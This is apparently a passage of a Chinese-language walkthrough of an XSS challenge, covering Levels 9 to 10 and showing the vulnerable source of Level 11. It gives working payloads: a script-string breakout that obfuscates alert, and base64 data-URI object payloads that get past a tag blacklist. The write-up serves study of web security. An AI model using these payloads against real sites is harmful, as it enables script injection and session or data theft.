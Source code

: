 ### Level 9

**思路**  
先查看页面源代码，发现注入点和Level 8类似，唯一的区别是`<script>`中的双引号在这里变成了单引号。修改payload如下：
```html
'}; top[8680439..toString(30)](document.domain); //
```

### Level 10

**思路**  
先查看页面源码，分析注入点：
```html
<script>
a = 'payload'
b = document.write(a);
</script>
```
这段代码向当前页面（document）中写入了一段payload，如果payload是一段恶意代码，比如`<svg/onload=alert(1)>`，那么这段代码
会被注入到HTML页面中并自动执行。因此，可以首先尝试这段注入。结果并没有弹窗，而返回页面被重定向到一个警告页面，如下：
```text
Hacking attempt!
```
这说明后端有注入检查机制，对于黑名单中的标签或某些关键字会进行过滤。经过尝试，发现常用的注入标签，比如`<img>``<iframe>``<a>`
等都在黑名单中，因此考虑编码绕过，首先考虑base64编码：
```html
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4="></object>
```
弹窗成功，接下来尝试弹出`document.domain`:
```html
<object data="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoZG9jdW1lbnQuZG9tYWluKT4="></object>
```
弹窗成功，但是没有出现`document.domain`的内容，难道是`document.write()`覆盖了原来的文档，导致`document.domain`被覆盖了？
不如再尝试下Level 9的代码：
```html
'; top[8680439..toString(30)](document.domain);//
```
成功弹窗。

### Level 11

**思路**  
先查看页面源码：
```html
<html>
<body>
<script src="analytics.js"></script>

<p>
your cool xss
</p>

<script>

var queryDict = {};
location.href.substr(location.href.indexOf('?')+1).split("&").forEach( function(item) {
  queryDict[item.split("=")[0]] = item.split("=")[1]
});

a = 'your_payload';

b = document.write('<b>' + decodeURIComponent(queryDict.p) + '</b>');

</script>
<!-- use your head and not automatic scanners like burp.. it will not help -->
</body>
```